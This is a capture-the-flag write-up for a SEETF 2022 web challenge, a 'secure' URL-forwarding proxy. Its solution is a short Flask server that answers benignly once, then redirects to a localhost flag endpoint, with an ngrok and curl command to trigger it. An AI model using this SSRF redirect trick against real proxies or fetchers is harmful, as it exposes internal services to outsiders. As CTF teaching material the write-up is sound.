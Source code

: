 ```yaml
---
name: Super Secure Requests Forwarder (2022)
event: Social Engineering Experts CTF 2022
category: Web
description: Writeup for Super Secure Requests Forwarder (Web) - Social Engineering Experts CTF (2022) 💜
layout:
    title:
        visible: true
    description:
        visible: true
    tableOfContents:
        visible: true
    outline:
        visible: true
    pagination:
        visible: true
---
```


# Super Secure Requests Forwarder

## Video Walkthrough

[![VIDEO](https://img.youtube.com/vi/-cc4U1H53F8/0.jpg)](https://youtu.be/-cc4U1H53F8?t=4180 "Social Engineering Experts CTF 2022: Super Secure Requests Forwarder")

## Description

> Hide your IP address and take back control of your privacy! Visit websites through our super secure proxy.

## Solution

```py
from flask import Flask, redirect, request

# flask run
# ngrok http 5000
# curl -X POST -d "url=http://c0ac-81-103-153-174.ngrok.io/exploit" http://ssrf.chall.seetf.sg:1337/

app = Flask(__name__)
check = True

@app.route("/")
def index():
    return "<a href='https://www.youtube.com/c/CryptoCat23'>👀</a>"

@app.route("/exploit", methods=['GET', 'POST'])
def handle():
    global check
    if check:  # First request = benign
        check = False
        return "First request is benign, why wouldn't the second be?!"
    else:  # Second request = malicious
        check = True
        return redirect("http://127.0.0.1/flag", code=302)
```

